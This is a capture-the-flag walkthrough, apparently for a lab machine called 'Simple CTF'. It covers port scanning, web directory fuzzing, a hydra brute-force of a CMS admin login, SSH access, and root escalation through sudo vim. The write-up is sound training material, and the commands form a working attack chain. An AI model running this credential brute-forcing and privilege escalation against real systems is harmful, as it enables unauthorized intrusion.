


# Simple CTF

### Information gathering

#### Port scanning

```bash
kali@kali> mdkir -p /tmp/thm/simple-ctf
kali@kali> nmap -p- -T4 -oN nmap-all-ports 10.10.122.214
kali@kali> ports="$(cat nmap-all-ports|grep ^[0-9]|cut -d'/' -f1|tr '\n' ','|sed 's/,$//')"
kali@kali> sudo nmap -p $ports -sV -sC -O 10.10.122.214 -oN nmap-services
```

The output `nmap-services` displays three services :

| Port     | Protocol | Service             |
| -------- | -------- | ------------------- |
| 21/TCP   | FTP      | vsftpd 3.0.3        |
| 80/TCP   | HTTP     | Apache httpd 2.4.18 |
| 2222/TCP | SSH      | OpenSSH 7.2p2       |

#### Web enumeration

```bash
kali@kali> ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.122.214/FUZZ -fw 3503 -o web-enumeration
```

New path : http://10.10.122.214/simple.

<figure><figcaption></figcaption></figure>

There are two informations.

* You can go to the admin panel by clicking on the **here** hyperlink (http://10.10.122.214/simple/admin/login.php) .
* It exists a **mitch** user.

<figure><figcaption></figcaption></figure>

#### Brute-forcing credentials

```bash
kali@kali> hydra -l mitch -P /usr/share/wordlists/rockyou.txt 10.10.122.214 http-post-form '/simple/admin/login.php:username=mitch&password=^PASS^&loginsubmit=Submit:password incorrect'
```

Hydra finds the credentials `mitch:secret`.

### Exploitation

#### Via SSH

Try to connect by SSH service on port 2222.

```bash
kali@kali> ssh mitch@10.10.122.214 -p 2222
mitch@victim> id
mitch@victim> cat /home/mitch/user.txt
```

### Post-exploitation

#### SUDO permissions

```
mitch@victim> sudo -l
```

<figure><figcaption></figcaption></figure>

Thus it's possible to use `vim` as root.

```bash
mitch@victim> sudo vim
```

Once the editor is open, type the command `!/bin/bash` and it pwns a root terminal.

```bash
root@victim> cat /root/root.txt
```
